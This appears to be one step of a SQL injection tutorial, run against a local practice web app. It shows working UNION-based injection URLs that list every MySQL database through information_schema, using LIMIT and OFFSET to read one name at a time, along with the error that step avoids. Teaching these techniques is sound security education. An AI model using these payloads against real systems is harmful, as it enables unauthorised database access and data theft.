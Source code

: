# (d) Get all databases

The plan here is to **list all databases** in the database server.

So MySQL store information about all databases in a special database called [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html).
To get the name of all databases we have to query the table **SCHEMATA** of that database.

The query may look like this:
```shell
SELECT schema_name FROM information_schema.schemata
```

We can inject that query via browser, just like in the previous steps:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata),3,4,5,6,7,8,9/slug-name-post'
```

But we will get this error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

This is because the query returns more than one row. So we have to *limit* the output listing the databases one by one, like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1),3,4,5,6,7,8,9/slug-name-post'
```

So now we have the first database. For the next one we can use the OFFSET trick, like this:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 1),3,4,5,6,7,8,9/slug-name-post'
```

With this OFFSET trick we are skipping the first database and getting the second one. Then we skip another one:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 2),3,4,5,6,7,8,9/slug-name-post'
```

We keep skipping until getting all the databases.

And that is it!! Mission accomplish!
